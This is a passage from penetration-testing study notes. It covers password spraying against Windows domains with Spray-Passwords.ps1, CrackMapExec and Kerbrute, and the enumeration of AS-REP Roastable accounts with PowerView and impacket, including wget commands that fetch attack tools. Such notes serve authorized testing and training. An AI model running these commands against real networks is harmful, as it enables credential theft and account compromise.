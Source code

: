Use the script like so:

```powershell
.\Spray-Passwords.ps1 -Admin -Pass "PASSWORD"
```

Alternatively, use **CrackMapExec**, which has bonus of showing whether user is Admin on target by adding `Pwn3d!` to output. NOTE: CME does not throttle requests, so watch out for account lockout.

```sh
# check list of usernames against single host
crackmapexec smb -u users.txt -p 'PASSWORD' --continue-on-success -d DOMAIN VICTIM_IP

# (assuming you know password) check which machines user(s) can access and has admin on.
# For admin, look for '(Pwn3d!)'
crackmapexec smb -u USERNAME -p 'PASSWORD' --continue-on-success -d DOMAIN CIDR_OR_RANGE
```

Another option is **Kerbrute**:

```sh
# fetch kerbrute
wget -O kerbrute32.exe https://github.com/ropnop/kerbrute/releases/latest/download/kerbrute_windows_386.exe
wget -O kerbrute64.ese https://github.com/ropnop/kerbrute/releases/latest/download/kerbrute_windows_amd64.exe
wget -O kerbrute https://github.com/ropnop/kerbrute/releases/latest/download/kerbrute_linux_amd64
chmod +x kerbrute

# on linux
./kerbrute passwordspray -d DOMAIN ./usernames.txt 'PASSWORD' --dc DOMAIN_IP

# on windows
.\kerbrute64.exe passwordspray -d DOMAIN .\usernames.txt "PASSWORD"
# if you receive a network error, make sure that the encoding of usernames.txt is ANSI.
# You can use Notepad's Save As functionality to change the encoding.
```


### 5.2.3 AS-REP Roasting

AS-REP Roasting is an attack to retrieve a user's password hash that can be brute-forced offline.

Normally when requesting a TGT, a client must prove its identity by encrypting the timestamp with it's hashed password in the AS-REQ. This is known as *Kerberos Preauthentication*. However, some services require turning preauthentication off (by enabling the _Do not require Kerberos preauthentication (i.e. DONT_REQ_PREAUTH)_ option) in order to function. This means that they (or any attacker) can request a TGT without submitting an encrypted timestamp, and the server will respond with a properly-encrypted TGT. Because the session key contains an HMAC encrypted with the user's hash, we can brute force this offline. Under the hood, the attack also weakens the crypto by requesting RC4 as the only allowable cipher for the HMAC (vs. the default of AES256-CTS).

Enumerating for users that are AS-REP Roastable:

```powershell
# Windows: using PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname

# Microsoft standard way of looking for users with 
# "Do not require Kerberos Preauthentication" option set (hex 0x400000 = 4194304)
# requires ActiveDirectory module to be loaded
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | fl

# Kali: using impacket (specify user info for authentication to DC)
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD
```
